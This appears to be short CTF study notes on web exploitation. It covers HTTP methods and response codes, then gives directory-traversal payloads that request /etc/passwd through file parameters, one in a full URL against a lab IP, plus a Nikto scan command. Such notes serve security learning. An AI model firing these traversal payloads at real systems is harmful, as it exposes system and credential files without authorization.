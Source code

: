 # HTML

[CTFDWalkthrough](Collab_Security/resources/Web-Exploitation-Walkthrough.md)
## Request
```
GET / HTTP/1.1

HTTP/1.1 200 OK
```
## Methods
RFC 2616

- GET
- POST
- HEAD
- PUT
## Response Codes
| Code | Name |
| - | - |
| 10X | Informational |
| 2XX | Success |
| 30X | Redirection |
| 4XX | Client Error |
| 5XX | Server Error |

## Html traversal
```
view_image.php?file=../../etc/passwd
```
# Tools
- Developer tools
- Nikto:
```
nikto v -h X.X.X.X
```
# Directory Traversal using post methods
```
../../../../../../../../../../etc/passwd
```
or
```
http://10.50.28.11/path/pathdemo.php?myfile=../../../../../../../../../../etc/passwd
```
for when absolute pathing is not possible
